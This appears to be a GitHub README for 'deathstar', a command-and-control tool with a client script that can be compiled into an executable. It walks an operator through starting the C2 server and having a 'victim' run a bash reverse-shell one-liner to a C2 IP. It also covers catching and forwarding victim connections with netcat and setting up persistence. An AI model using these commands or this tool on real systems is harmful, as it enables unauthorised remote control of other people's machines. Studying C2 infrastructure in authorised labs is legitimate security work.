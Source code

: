 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.


![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)



# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

OR 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

- This will drop the moment the C2 server 'drops'
`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

OR

- This will continue to connect to the C2 server even after it 'drops'
`./stardestroyer.py &`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

OR

On the terminal, list the connections.

Select `2)` to forward.

Specify the `ID` of the `VICTIM` you'd like to forward.

Then, type the IP of your `LISTENING` device.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.


